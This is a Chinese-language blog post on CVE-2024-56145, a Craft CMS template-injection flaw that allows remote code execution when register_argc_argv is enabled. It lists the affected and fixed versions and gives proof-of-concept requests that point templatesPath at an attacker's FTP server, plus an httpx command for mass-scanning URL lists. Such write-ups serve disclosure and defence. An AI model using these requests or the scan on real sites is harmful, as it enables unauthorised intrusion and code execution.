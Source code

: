 #  【新day】CVE-2024-56145（Craft CMS 模板注入导致 RCE）   
原创 fkalis  fkalis   2024-12-21 10:50  
  
# 绪论  
> **如果各位师傅觉得有用的话，可以给我点个关注~~ 如果师傅们有什么好的建议也欢迎联系我~~ 感谢各位师傅的支持~~**  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBicdYMrcDj1IM8qV6I0rkpibO7pTY4CibicHmG6uHuL0eiasl9l6xI2MDRZaKhicsPUAdzslV95G055uvHibw/640?wx_fmt=png&from=appmsg "")  
# 正文部分  
## 漏洞详情  
> Craft 是一种灵活、用户友好的 CMS，用于在 Web 及其他方面创建自定义数字体验。如果受影响版本的用户php.ini配置启用了“register_argc_argv”，则其用户会受到此漏洞的影响。对于这些用户，存在未指定的远程代码执行向量。建议用户更新到版本 3.9.14、4.13.2 或 5.5.2。无法升级的用户应禁用“register_argc_argv”以缓解此问题。  
  
## 漏洞原理  
  
**原作者的分析详情：**  
```
https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms
```  
> **本质上是一个模板注入，通过请求ftp服务器中的模板，并且进行解析，最终实现RCE**  
  
## 漏洞条件  
> 1. 需要服务器出网，能够正常请求ftp服务  
> 2. php.ini配置启用了“register_argc_argv”  
  
## POC汇总  
```
请求1：/?--configPath=/aaa开启ftp服务后，进行请求2请求2：/?--templatesPath=ftp://ftp地址:ftp端口
```  
## 漏洞探测POC  
### 数据包  
```
https://xxx.xxx.xxx/?--configPath=/aaa
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMaBm7kAeu6HiaQIIqeYG6VC26S4s1YmBr3Sjw8qDWeusn24PRCAib7ckg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/OlNJlSSibBiccm9kwy6j9rUPza8phHvXPMlJpG7eHMNybZicWoiaRVbShdQJEibHM6oeRyEqDhC57fdD9thx2sX6r2g/640?wx_fmt=other&from=appmsg "")  
  
### 使用httpx进行快速验证  
```
httpx.exe -path "/?--configPath=/aaa" -sc -cl -mc 200  -l url.txt -ms "mkdir()"
```  
  